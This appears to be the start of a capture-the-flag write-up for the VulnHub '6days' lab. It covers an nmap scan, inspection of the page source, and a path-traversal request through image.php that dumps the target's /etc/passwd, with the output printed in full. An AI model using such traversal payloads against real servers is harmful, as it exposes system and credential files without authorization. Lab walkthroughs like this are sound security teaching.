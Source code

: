 Quick nmap scan also showed a filtered http-proxy port 8080
```
root@sengen-kali:~/vulnhub/6days# nmap 192.168.56.104

Starting Nmap 7.50 ( https://nmap.org ) at 2017-07-27 15:57 PDT
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.104
Host is up (0.00015s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
8080/tcp filtered http-proxy
MAC Address: 08:00:27:0B:78:6D (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.63 seconds
```

<b>So it appears that SSH and a Web port is open</b><br />
Navigated to the webpage and there's a simple page with a promocode textbox and button.

<img src="{{ site.url }}/images/ctf/6days_lab_1.png"/>

Using the code NONEEDFORPENTEST results in a response of:<br />
Code expired!

## Viewing source
- We see that the form submits to a php page called checkpromo.php
- We also see an interesting piece for the broken image on the page
  - \<img src="http://192.168.56.104/image.php?src=https%3A%2f%2f4.bp.blogspot.com%2f-u8Jo4CEKQLk%2fV4OpiaoMJ7I%2fAAAAAAAAAiw%2f8kuCpTOpRWUAdp2p4GpegWdnOwxjwHNYQCLcB%2fs1600%2fphoto.jpg" />

## LFI detected
This image link is rather suspicious as it is being provided as a parameter to another php page call image.php (this often means an LFI or RFI could be possible).

I tried a number of LFI paths in the browser but received errors on the page but then tried them again with curl with success:

```
root@sengen-kali:~/vulnhub/6days# curl http://192.168.56.104/image.php?src=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```